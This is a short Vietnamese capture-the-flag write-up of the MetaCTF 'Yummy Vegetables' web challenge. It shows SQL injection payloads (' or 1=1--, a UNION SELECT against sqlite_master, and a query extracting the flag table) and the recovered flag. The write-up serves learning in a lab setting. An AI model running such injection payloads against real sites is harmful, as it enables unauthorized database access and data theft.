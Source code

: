 ### Yummy Vegetables - web challenge - 300

Challenge description

```
I love me my vegetables, but I can never remember what color they are! I know lots of people have this problem, so I made a site to help.

Here's some sauce to go with the vegetables: index.js
```

http://host.cg21.metaproblems.com:4010/

**Overview** 

Sau click vào liên kết sẽ đưa chúng ta đến với một box tìm kiếm `Search for Vegetables`.  Không có gì khác ngoài việc thử bất cứ thứ gì liên quan đến SQL injection. Sử dụng `' or 1=1--`  mình thấy có list 2 cột hiện ra là `Vegetable Name` và  `Color`. 

Sau khi thực hiện một vài truy vấn tìm số cột và tên dbms mà thử thách dùng là sqlite, truy vấn sau để liệt kê tên table `'  union SELECT null,null,tbl_name FROM sqlite_master --` 

```
Color

sqlite_sequence
the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5
veggies
```

Bảng `the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5` có dấu hiệu là bảng chứa thông tin flag. Tiếng hành truy xuất dữ liệu trong bảng xem kết quả có khả quan không

```
{"query":"' union select null,null,flag from the_flag_is_in_here_730387f4b640c398a3d769a39f9cf9b5--"}
```

Kết quả flag trong phản hồi http.

```
{
"id":null,
"name":null,
"color":"MetaCTF{sql1t3_m4st3r_0r_just_gu3ss_g0d??}"
},
```

